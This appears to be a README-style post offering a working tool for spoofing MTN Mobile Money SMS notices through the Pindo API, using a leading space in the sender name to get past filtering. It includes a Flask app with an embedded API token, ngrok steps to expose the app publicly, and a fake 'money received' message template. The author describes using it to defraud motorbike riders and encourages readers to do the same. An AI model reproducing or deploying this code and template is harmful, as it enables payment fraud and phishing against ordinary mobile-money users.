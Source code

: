 # ksjldkjfsl

Hy all I Hope you're doing epic! I've got some wild news to share about the Pindo API DNA that'll probably blow your mind. 🔥

Guess what? While diving deep into the tech ocean, I stumbled upon something that had me raising an eyebrow. It turns out that there's this ninja-like way users can play around with the system. By sneaking in spaces before or after a company name in messages, it's like a digital cloak that can turn anyone into a master of disguise. Cool, right?

But wait, it gets even cooler. I went ahead and put this thing to the test. Sent some money via MTN Mobile Money and guess what? The name checking seems to be on a coffee break. I kid you not, it's like I've been moonlighting as a motorbike enthusiast, cruising around for a week on someone else's dime! Gotta make sure the tech is solid, right? 😎

But fear not, the good news is, I've got your back. I've done some digging, and MTN's firewall seems to be on the lookout for messages that scream "M-Monye." That's where the magic happens. Toss in a sly space, like "M-Money," and you're basically a mobile money wizard. Seriously, it's like you've sent money to someone without even breaking a sweat.

Now, here's where the plot thickens. It's a slick move for folks who've got places to be and only peek at their messages and the cash flow. Caught a few curious cats, though, ones who've got an eye for detail. Can't fool everyone, right? 😄

Now, I'm not just here to tease you with tech tales. I've got something in store. I've whipped up a POC, a proof of concept, that'll show you this slick space trick in action. The repo is all set and ready to rumble on GitHub. Check it out and let me know what you think.

```python
from flask import Flask, render_template, request, redirect, flash
from flask_wtf import FlaskForm
from wtforms import StringField, TextAreaField
from wtforms.validators import DataRequired
from flask_sqlalchemy import SQLAlchemy
import requests

app = Flask(__name__)
app.config['SECRET_KEY'] = 'idontdrinkmyownpee'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///messages.db'  # Use SQLite database
db = SQLAlchemy(app)

class SMSForm(FlaskForm):
    numbers = StringField('Phone Numbers (comma-separated)', validators=[DataRequired()])
    message = TextAreaField('Message', validators=[DataRequired()])

class Message(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    numbers = db.Column(db.String(255), nullable=False)
    message = db.Column(db.String(255), nullable=False)

PINDO_API_TOKEN = 'eyJhbGciOiJub25lIn0.eyJpZCI6OTgyLCJyZXZva2VkX3Rva2VuX2NvdW50IjowfQ.'

@app.route('/', methods=['GET', 'POST'])
def send_sms():
    form = SMSForm()

    if form.validate_on_submit():
        numbers = form.numbers.data
        message = form.message.data

        numbers_list = [num.strip() for num in numbers.split(',')]

        headers = {'Authorization': 'Bearer ' + PINDO_API_TOKEN}
        url = 'https://api.pindo.io/v1/sms/'

        with app.app_context():  # Enter the application context
            for number in numbers_list:
                data = {'to': number, 'text': message, 'sender': ' M-Money'}
                response = requests.post(url, json=data, headers=headers)

                print(f'Sending to {number}: {response.status_code}')

                # Store the sent message in the database
                new_message = Message(numbers=number, message=message)
                db.session.add(new_message)
                db.session.commit()

            flash('SMS sent successfully!', 'success')
            return redirect('/')

    return render_template('index.html', form=form)

if __name__ == '__main__':
    with app.app_context():  # Enter the application context
        db.create_all()  # Create database tables
    app.run(debug=True)
```

you can use my pindo api token for configuration but you can easily get your token when you sign in … matter of fact you don’t even have to use legimate information … as long as you have a google account you’re good to go when you sign in to pindo you check your profile for 

the token and use the same token but its worth checking it out explore yourself 

then then when you run 

python3 [app.py](http://app.py) considering that you’ve name your app app.py

it runs locally on address 172.0.0.1:5000 on port 5000 because flasks projects typically

runs on port 5000

and then to make the app available to the internet i used ngrok of course am not gonna talk about it but you can get an account right now if you have google account [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup) you can also create ngrok accoung to get their token for free without providing your personal deatails and here’s the link to download it using git clone [https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz](https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz) .. after downloading you check the file type and unzip it using gzip -d “filename” and when the unzip is done 

the file will come with .tar extension use tar xvf to unarchive it . and then run

`ngrok config add-authtoken "token"`  you’ll use your personal token and after configuring you run it with ./ngrok http 5000 and when you its fully operational you can copy the link provided and paste it in your browser address and then you see something like this

and then you make ngrok run on the same project run on port 5000 as soon as you the local application is on the internet you get an url you input in your browser for sending messages and

now when you send the message its like this …..

i used this template as a message 

You have received 20000 RWF from UWERA MARIE CLAIRE (*********876) on your mobile money account at 2023-08-10 03:27:39. Message from sender: 1. Your new balance: 2018 RWF. Loyalty fee was 0 and loyalty reward was 0. Promotion was 0. Financial Transaction Id: 10438338079.

of course you edit the message to make it look legitmate and when you hop on off the bike you send your imaginary money then you’re good to go.

thats was cool right?

Happy hacking.
